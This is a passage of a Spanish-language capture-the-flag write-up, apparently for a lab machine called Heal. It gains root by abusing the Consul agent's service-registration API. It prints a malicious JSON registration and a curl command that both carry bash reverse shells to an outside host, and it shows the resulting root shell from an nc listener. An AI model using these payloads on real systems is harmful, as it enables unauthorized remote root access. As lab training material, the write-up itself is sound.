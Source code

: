 La versión que encontramos presenta una vulnerabilidad que permite ejecutar comandos a través de un parámetro al enviar una solicitud HTTP con el método `PUT`, el exploit público lo podemos encontrar en el siguiente enlace

- https://www.exploit-db.com/exploits/51117

La vulnerabilidad reside en una API existente que ofrece registrar servicios mediante el método PUT al endpoint `/v1/agent/service/register`, un registro malicioso puede verse de la siguiente manera

~~~ json
{
  "ID": "exploit",
  "Name": "exploit",
  "Address": "127.0.0.1",
  "Port": 80,
  "check": {
    "Args": ["/bin/bash", "-c", "bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1"],
    "interval": "10s",
    "Timeout": "86400s"
  }
}
~~~

Vemos claramente cómo se intenta enviar un comando que ejecuta una reverse shell en el valor de `Args`.

En mi caso, usaré directamente `curl` para enviar una solicitud HTTP que registre un servicio maliciosos que ejecute una reverse shell a mi IP por un puerto determinado

~~~ bash
curl -X PUT http://127.0.0.1:8500/v1/agent/service/register -d '{"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.15.7/4444 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}'
~~~


## Root Time

Esperaremos un momento a que se ejecute el servicio malicioso que registramos. Ganaremos acceso a la máquina como `root`

~~~ bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.15.7] from (UNKNOWN) [10.10.11.46] 48440
bash: cannot set terminal process group (33568): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# id
id
uid=0(root) gid=0(root) groups=0(root)
~~~


## TTY Treatment

 Haremos un último tratamiento de la TTY para hacer más estable la shell que hemos obtenido 
